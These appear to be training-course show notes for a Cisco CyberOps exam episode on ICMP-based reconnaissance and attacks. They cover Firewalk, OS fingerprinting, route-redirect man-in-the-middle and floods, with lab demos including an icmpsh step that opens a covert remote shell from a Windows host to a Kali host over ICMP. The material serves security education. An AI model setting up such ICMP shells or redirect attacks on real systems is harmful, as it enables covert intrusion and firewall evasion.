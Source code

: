 ###Cisco Cybersecurity Operations (Exam 210-255)
============================================================
{FileName}cisco-secops210255-2-4-describe_icmp-MMDDYY
{EpisodeName} Describe ICMP Instrusion
{ShowName}Cisco Cybersecurity Operations
{Keywords}Cisco FMC, Wireshark, Cisco IOS Netflow
#### Describe ICMP Instrusion
------------------------------------------------------------
* 2.2.f ICMP
	- Layer 3 protocol internal to IP and must be implemented if IP is used.
		+ ICMP Error Messages
		+ ICMP Query Messages
	- means to send error messages
	- Number code or "Message Type"; No ports but Type and Code
* Used Reconnaisance & Scanning 
	- ICMP Sweep:
	- ICMP (Destination) Unreachable: 
		+ ICMP **Protocol Unreachable** :attacker knows protocol
		  not used on target.
		+ ICMP **Port Unreachable** :  attacker knows port not
		  used on target
		+ ICMP Mask reply: allow router to report the correct
		  subnet mask for given network.
	- ICMP Source Quench: forced to drop datagrams due to congestion sends feedback to source--"SLOW DOWN"
		- Can be used for no good reason; not used very often
		- RFC 1812- deprecated (RFC 6633)
	- ICMP Time Exceeded: Datagram is dropped to TTL expiring. Device that drops send message to source
	- Traceroute: trace path to target and possible network
	  topology information
	- ICMP Message Demo:
``` 
Use Kali and Wireshark:
--start wireshark
--start terminal
--ping 172.16.89.50 (another machine on same network)
--ping 172.16.89.2 (default router)
--ping 4.2.2.1 (network--in routing table)
--ping 10.0.0.1 (network off of R2--in routing table)
--ping 8.8.8.1 (network off  of R2--in routing table)
--ping 192.168.1.1 (network off of R2 interface --not in routing able)
--traceroute to 10.0.0.1
--traceroute to 192.168.1.1
	- Firewalk: identifies ports that are open on firewall.
	  Maps out the filtering rules
		- Traceroute first to reach firewall
		- Scanning sets TTL packet to one greater than
		  firewall and tries to send to known host behind
		  firewall. If "Time exceeded" message is received,
		  then we know it returned from behind the firewall.
	- Inverse Mapping: maps internal hosts behind firewall
		+ Attacker sends ICMP reply to range of internal IP
		  addresses
		+ Targets receive the replies because it doesn't track
		  state of ICMP request.
		+ If internal router is present, the router will
		  respond with ICMP "Host Unreachable" for each host 
		  it cannot reach.
	- OS Fingerprinting: ICMP can be used to determine OS
		+ Sends UDP packet with DF bit set target whose UDP
	       port is closed
		+ "Destination unreachable port" will be returned
		+ Return packets will have precedence field set (ToS)
			- e.g. 0xc0 -- Linux Kernel 2.0+,2.2+,2.4+, Cisco
		       router or Extreme Network switch.
			- ICMP Error Quoting size are different between
			  OSes and networking devices
		+ TTL values of ICMP replies:
			- 128 (Windows)
			- 64 (Linux based)
	- ICMP Route Redirect: notifies sender of a better route to
	  destination.  
		+ This message is sent by the router.  It's routing
		  table shows that the Destination is on the same
		  network as the source host.
		+ This may indicate a MITM attack.
		+ Describe attack:
``` 
Simple Diagram 
-Attacker compromizes the router.
-Attacker uses router to send an open TCP message to PC1 (as PC2)
-When PC1 replies to PC2 (3a). Attacker sends ICMP route redirect message to source spoofing as R2.
-PC1 will change all data destined for PC2 through R1.
-Attacker will be able to read and modify then forward to R2
```
	- ICMP Router Discovery Messages
		+ Router Advertisement and Router Solicitation: a host can use to find out the IP address of router.
		+ MITM and DoS
		+ no authentication--allows for spoofing.
* ICMP Tunneling
	- covert connection between two remote hosts using ICMP echo
	  request and reply packets.
		+ bypasses firewall rules (hides traffic in ICMP
		  packets)
		+ Cannot be detected without packet inspection and
		  logs.
		+ icmpsh demo:
``` 
Kali Linux get icmpsh from git-hub
Windows 7 machines get icmpsh.exe from git-hub
Kali01: 
--Navigate to Downloads extract, then navigate to 
subfolder where you find icmpsh_m.py
--sysctrl -w net.ipv4.icmp_echo_ignore.all=1
--start Wireshark on appropriate Network Adapter
--sudo python icmpsh_m.py 172.16.89.145 172.16.89.150
Windows7:
--open cmd: navigate to folder of icmpsh downloads
--icmpsh.exe -t 172.16.89.145
Switch back to Kali
observe wireshark output.
use terminal and navigate windows system
stop wireshark capture, discuss the output in wireshark
```
	- ICMP Informational Messages
		+ "Oversized" ICMP Messages could crash host due the OS 
		  not programed to handle packets larger than RFC spec.
		+ Oversized  ICMP packets will cause some OS to stop and 
		  reboot.
* Denial of Service Attacks
	- ICMP Floods
	- Smurf Attacks



